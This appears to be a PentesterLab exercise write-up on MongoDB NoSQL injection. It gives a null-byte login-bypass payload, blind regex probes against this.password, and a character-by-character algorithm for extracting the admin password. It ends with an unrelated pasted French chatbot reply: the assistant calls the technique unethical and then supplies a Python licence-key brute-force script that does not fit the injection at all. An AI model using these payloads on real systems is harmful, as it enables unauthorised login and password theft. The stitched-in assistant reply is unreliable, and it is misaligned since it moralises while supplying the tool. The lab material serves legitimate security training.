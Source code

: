 # SQLI - MongoDB

**INJECTION WITH A NULL BYTE**

This example is the MongoDB version of the (in)famous ' or 1=1 --.

If you remember what you saw previously, you know that you will need two things to bypass this login:

* `An always true condition.`
* `A way to correctly terminate the NoSQL query.`

First, by reading MongoDB documentation you can find that the SQL or 1=1 translates to || 1==1 (note the double =).

Then by poking around, you can see that a NULL BYTE will prevent MongoDB from using the rest of the query.

In some cases, you can also use the comments // or \<!-- to comment out the end of the query.

`?username=admin'||'1==1'%00&password=test`

In this example, we will try to retrieve more information from the NoSQL database.

Using a bit of guess work (or previous knowledge of the application), we can deduce that there is probably a password field.

We can play around to confirm that suspicion:

```
if we access [/?search=admin'%20%26%26%20this.password.match(/.\\*/)%00](): we can see a result.
if we access [/?search=admin'%20%26%26%20this.password.match(/zzzzz/)%00](): we cannot see a result.
if we access [/?search=admin'%20%26%26%20this.passwordzz.match(/.\\*/)%00](): we get an error message (since the field passwordzz does not exist).
```

Now, we have a way to perform a blind injection since we have two states:

```
No result when the regular expression does not match something: false state.
One result when the regular expression matches something: true state.
```

Using this knowledge, we can script the exploitation to retrieve the admin password.

We will first ensure that the matching is done correctly by using: ^ and $ to make sure we do not match characters in the middle of the string (otherwise iterating will be far harder).

The algorithm looks like:

```
test if password match /^a._$/ if it matches test without the wildcard ._(to check if it's the full password). Then move to the next letter if it does not match.
test if password match /^b._$/ if it matches test without the wildcard ._. Then move to the next letter if it does not match.
```

For example, if the password is aab, the following test will be performed:

```
/^a.\\*$/ that will return true.
/^a$/ that will return false.
/^aa.\\*$/ that will return true.
/^aa$/ that will return false.
/^aaa.\\*$/ that will return false.
/^aab.\\*$/ that will return true.
/^aab$/ that will return true. The password has been found.
```

With these details, you should be able to retrieve the password for the user admin. The password is the key to solve this exercises, so it should have the following format:XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX, where X can be \[0-9a-f].\
In case the password field does not exist for some records (since it's a NoSQL database), it's always a good idea to ensure its presence by using ... && this.password && this.password.match(... instead of just using ... && this.password.match(....

admin' %26%26 this.password.match(/.\\$\*/)%00

Je comprends maintenant que vous voulez de l'aide pour un exercice de formation sur pentesterlab. Je suis désolé pour la confusion. Il est important de noter que l'utilisation d'une technique d'essais et erreurs pour trouver des informations sensibles comme une clé de licence n'est pas considérée comme une pratique éthique et n'est pas recommandée dans la vie réelle.

Voici un exemple de script en Python qui pourrait être utilisé pour tester tous les caractères possibles pour la clé de licence en utilisant Burp Suite:

```
Copy codeimport requests

# Define the target URL and the parameter name
url = "http://example.com/check_license.php"
param = "license_key"

# Define the possible characters for the key
charset = "0123456789abcdef"

# Start with an empty key
key = ""

# Try adding one character at a time to the key and checking the response
while True:
    for c in charset:
        payload = key + c
        data = {param: payload}
        r = requests.post(url, data=data)
        
        # Check the response for a match
        if "valid key" in r.text:
            key += c
            print("Found character: " + c)
            break
    else:
        # If no match is found, the key is complete
        break

print("Found key: " + key)
```
